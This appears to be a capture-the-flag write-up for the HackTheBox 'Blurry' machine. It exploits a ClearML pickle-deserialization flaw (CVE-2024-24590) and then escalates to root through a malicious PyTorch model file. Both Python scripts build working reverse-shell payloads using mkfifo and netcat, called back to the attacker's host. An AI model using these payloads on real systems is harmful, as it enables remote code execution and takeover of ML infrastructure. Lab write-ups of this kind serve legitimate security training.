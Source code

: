 # Blurry-writeup-HTB

# Exploration

Let's perform an nmap scan

```bash
nmap -sCV -A 10.10.11.19
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-08_15_45_41.jpg)

We must add the subdomains:

```bash
sudo nano /etc/hosts 
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-10_18_45_06_1.png)


Let's visit the web port app.blurry.htb that we discovered with the nmap scan


![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_15_46_05.png)

Just by entering a username we can enter.

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_16_28_06.png)


Investigate what CLEARML is, what it is for, how it works. 
I found a website that details the vulnerabilities.

[CVE-2024-24590](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/?source=post_page-----203ea31df0e3--------------------------------) 


# Exploitation configuration:


According to what they explain, an attacker could create a pickle file containing arbitrary code and upload it as an artifact to a project via the API. When a user calls the get method within the Artifact class to download and load a file into memory, the pickle file is deserialized to their system and executes any arbitrary code it contains.

We need to configure it on our machine
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-10_18_45_06.png)

```bash
pip install clearml
clearml-init
```
# Exploitation

We need a Python script that creates and uploads a malicious pickle file. 
When the file is executed, it will establish a reverse shell connection to our machine.

```bash
import pickle
import os
from clearml import Task, Logger


task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])



class MaliciousCode:
    def __reduce__(self):

        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc "ip port" > /tmp/f"
        )
        return (os.system, (cmd,))


malicious_object = MaliciousCode()
pickle_filename = 'malicious_pickle.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)

print("Malicious pickle file with reverse shell created.")


task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")

print("Malicious pickle file uploaded as artifact.")
```
With the execution of the exploit, the artifact is loaded.
Then when the administrator checks it, you will get a shell on the listening port.

Listen on netcat
```bash
nc -lvnp <port>
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_16_58.png)

Run the exploit

```bash
python exploit.py
```
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_19_25.png)

The exploit is uploaded to the web, runs and completes. after two minutes you get reverse shell in your terminal.
You may need to run the exploit several times to obtain the shell.

# The user flag
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-13_17_54_22.png)

# Privilege escalation

Let's stabilize our shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")’    

export TERM=xterm 

stty raw -echo
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_04_23_09.png)

Let's check the ones we can run as root.
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_23_38.png)

The jippity user can run the evaluate_model command with any file that has a .pth extension. Let's navigate to the /models/ directory to investigate further.

Installing the torch from pip will allow us to create a model.

The script I will use to create our malicious model:

```bash
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, demo): # Passes input through the linear layer.
        return self.dense(demo)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'demo.pth')
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_33_39.png)

```bash
jippity@blurry:~$ wget http://10.10.x.x/demo.pth
--2024-06-13 15:06:49--  http://10.10.x.x/demo.pth
```
# Root flag

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_34_06.png)


```bash
nc -lvnp 6060
listening on [any] 6060 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.11.19] 57082
root
# cat /root/root.txt
```
